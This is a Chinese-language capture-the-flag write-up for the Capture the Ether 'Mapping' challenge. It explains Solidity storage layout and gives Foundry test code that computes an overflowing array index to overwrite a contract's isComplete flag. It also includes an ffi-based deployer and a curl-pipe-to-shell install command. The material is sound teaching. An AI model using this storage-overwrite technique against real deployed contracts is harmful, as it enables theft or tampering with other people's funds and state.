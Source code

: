 # Mapping

## 题目描述

[原题链接](https://capturetheether.com/challenges/math/mapping/)

原题目要求 MappingChallenge 合约的 isComplete 变量设置成 true。

## 运行

**安装 Rust**

```sh
$ curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
并根据提示继续操作。

**安装 svm**

[svm-rs](https://github.com/roynalnaruto/svm-rs) is Solidity Compiler Version Manager

```sh
$ cargo install svm-rs
```

**设置 solc 版本**
```sh
$ svm install 0.4.26

$ svm use 0.4.26

$ solc --version
```


**安装 Foundry**

根据 [Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Math/Mapping --ffi -vvv
```

## 功能简述

在原题 `^0.4.21` 版本下，array 的成员 length 是可以修改的，在 `0.6.0` 版本之后，length 是只读的，无法修改。并且 forge-std/Test.sol 要求 solidity 版本大于等于 0.6.2: `pragma solidity >=0.6.2 <0.9.0`。也就是说，我们测试文件 `MappingChallenge.t.sol` 是无法 import `MappingChallenge.sol`。我们需要使用 0.4.26 版本的编译器单独编译并且部署 `MappingChallenge.sol`

为了能够复现这个 Challenge，我们需要一个 `BytesDeployer.sol`。
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

import "forge-std/Test.sol";

contract Deployer is Test {
    ///@notice Compiles a contract before 0.6.0 and returns the address that the contract was deployed to
    ///@notice If deployment fails, an error will be thrown
    ///@param path - The path of the contract. For example, the file name for "MappingChallenge.sol" is
    /// "src/Capture_the_Ether/Math/Mapping/MappingChallenge.sol"
    ///@return deployedAddress - The address that the contract was deployed to
    function deployContract(string memory path) public payable returns (address) {
        string memory bashCommand =
            string.concat('cast abi-encode "f(bytes)" $(solc ', string.concat(path, " --bin --optimize | tail -1)"));

        string[] memory inputs = new string[](3);
        inputs[0] = "bash";
        inputs[1] = "-c";
        inputs[2] = bashCommand;

        bytes memory bytecode = abi.decode(vm.ffi(inputs), (bytes));

        ///@notice deploy the bytecode with the create instruction
        address deployedAddress;
        uint256 value = msg.value;
        assembly {
            deployedAddress := create(value, add(bytecode, 0x20), mload(bytecode))
        }

        ///@notice check that the deployment was successful
        require(deployedAddress != address(0), "YulDeployer could not deploy contract");

        ///@notice return the address that the contract was deployed to
        return deployedAddress;
    }
}
```

这个合约使用了 forge ffi 作弊码，它允许开发者执行任意 shell 命令并捕获输出。我们需要使用它来获取 `MappingChallenge.sol` 的 bytescode。合约里面的命令相当于在 terminal 执行 `cast abi-encode "f(bytes)" $(solc ./src/Capture_the_Ether/Math/Mapping/MappingChallenge.sol --bin --optimize | tail -1)` 然后使用 assembly 部署合约，并返回新合约地址。

然后在 MappingChallenge.t.sol 合约中 setUp 函数中利用 Deployer 部署好 MappingChallenge。

到现在，我们可以来解决 MappingChallenge。MappingChallenge 合约里面有两个 storage 变量，一个是 isComplete，存储在 slot 0；一个是 map， 存储在 slot 1。怎样通过修改 map 的值来影响 isComplete 的值？

下面科普一下以太坊的 World state，简单来说，所有的 Address 都有 Account state，由 nonce，balance，storage，code 组成，对于 EOA，storage 和 code 都是默认为空，对于 Contract account，code 用于存储合约代码，storage 用于存储合约里面的状态变量。

![](img/evm_account.png)

storage 是由 key-value 对组成，空间大小为 2^256，一般情况下是够用的：

![](img/account_storage.png)


MappingChallenge 里面的[存储布局](https://docs.soliditylang.org/en/develop/internals/layout_in_storage.html#mappings-and-dynamic-arrays)：

```sh
slot 0            : isComplete
slot 1            : map.length
...
slot keccak(1)    : map[0]
slot keccak(1) + 1: map[1]
slot keccak(1) + 2: map[2]
slot keccak(1) + 3: map[3]
slot keccak(1) + 4: map[4]
// ...
```

因此我们需要找到 map[x]，它的存储 slot 为 slot 0。
即：

$$Keccak(1) + x \equiv 0 \ (mod \ 2^{256})$$ 

$$x \equiv 2^{256} - Keccak(1) \ (mod \ 2^{256})$$

而 `UINT256_MAX + 1 = 2^256`，因此 `uint256 index = UINT256_MAX - uint256(keccak256(abi.encode(1))) + 1`

我们只需要将 map[index] 设置为非 0 值即可：

```solidity
        uint256 index = UINT256_MAX - uint256(keccak256(abi.encode(1))) + 1;
        bytes memory setCallData = abi.encodeWithSignature("set(uint256,uint256)", index, 1);

        (bool success,) = address(mappingChallenge).call{gas: 100000, value: 0}(setCallData);
        assertTrue(success);

        emit log_named_string("after hack, isComplete", mappingChallenge.isComplete() ? "true" : "false");

        assertTrue(mappingChallenge.isComplete());
```
